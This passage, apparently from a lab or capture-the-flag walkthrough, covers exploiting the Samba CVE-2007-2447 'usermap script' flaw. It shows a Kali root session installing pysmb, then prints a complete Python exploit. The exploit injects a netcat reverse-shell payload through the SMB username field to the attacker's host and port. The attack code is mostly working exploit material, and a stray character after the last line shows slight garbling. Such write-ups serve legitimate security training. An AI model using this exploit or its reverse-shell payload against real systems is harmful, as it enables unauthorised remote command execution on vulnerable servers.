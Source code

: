 ```
└─# cd CVE-2007-2447 
                                                                                                    
┌──(root㉿kali)-[/home/kali/CVE-2007-2447]
└─# ls
README.md  usermap_script.py

└─# pip install pysmb                                      
Collecting pysmb
  Downloading pysmb-1.2.8.zip (1.3 MB)
     |████████████████████████████████| 1.3 MB 6.0 MB/s            
  Preparing metadata (setup.py) ... done
Requirement already satisfied: pyasn1 in /usr/lib/python3/dist-packages (from pysmb) (0.4.8)
Building wheels for collected packages: pysmb
  Building wheel for pysmb (setup.py) ... done
  Created wheel for pysmb: filename=pysmb-1.2.8-py3-none-any.whl size=84114 sha256=79ab1a9709ab6818e2948c1bf1f9046440e8217111477d30c6541cf6776de09f
  Stored in directory: /root/.cache/pip/wheels/bd/87/29/92f27d90591eb2c17d5713e72977a1e066ea6a303c705c4ffc
Successfully built pysmb
Installing collected packages: pysmb
Successfully installed pysmb-1.2.8
WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa.io/warnings/venv                                                                               
                                                
```
{% endcode %}

Python script from GitHub is as follows. The 'nohup' command triggers the exploit.

{% code lineNumbers="true" %}
```python
import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Payload was sent - check netcat !")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)y
```
{% endcode %}
